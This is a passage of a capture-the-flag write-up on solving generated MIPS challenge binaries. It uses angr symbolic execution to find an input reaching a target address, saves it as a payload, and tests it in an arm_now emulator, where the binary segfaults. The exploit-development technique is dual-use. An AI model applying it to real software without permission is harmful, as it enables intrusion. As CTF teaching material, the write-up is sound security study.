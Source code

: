 The code above just decodes, uncompresses, and saves the binary (for analysis).


#### Solve with angr.io

```
t=time.time()
proj = angr.Project(io.BytesIO(binary),auto_load_libs=False)
state = proj.factory.entry_state()
simgr = proj.factory.simulation_manager(state)
simgr.use_technique(angr.exploration_techniques.DFS())
FIND_ADDR=0x400b44
simgr.explore(find=FIND_ADDR)
print(time.time() - t,end="")
print(" seconds")
payload = simgr.found[0].posix.dumps(0)[:64]
open('payload' + str(n),'wb').write(payload)
```

Fortunately, all the binaries are the same size and `0xc00lbabe` is located at the same address (`0x400b44` (`babe`)).  The above code will use [angr.io](angr.io) magic and find a solution in ~15 seconds ~50% of the time.  Clearly not fast enough.  The payload will be saved for continued dev/test.


#### Local testing

As stated the angr code above is not fast enough.  However with one payload we can test locally the rest of the solution and at least have those bits complete before returning to optimize the solution.

> I'm an angr n00b, there may be a better way with angr.

To test locally use [arm_now](https://github.com/nongiach/arm_now):

```
arm_now start mips32el -s --clean --redir tcp:9999:9999
```

After boot, login as `root` with no password and install some packages:

```
opkg update && opkg install socat file ldd bash
```

Then test:

```
# chmod 750 ./binary0
# (cat payload0; cat) | ./binary0

Faster >
======== 0.8980s ========
Name
> datajerk
Your time comes.
>
do_page_fault(): sending SIGSEGV to binary0 for invalid read access from 7c9ae400
epc = 7c9ae400 in
ra  = 7f911a04 in
Segmentation fault
```
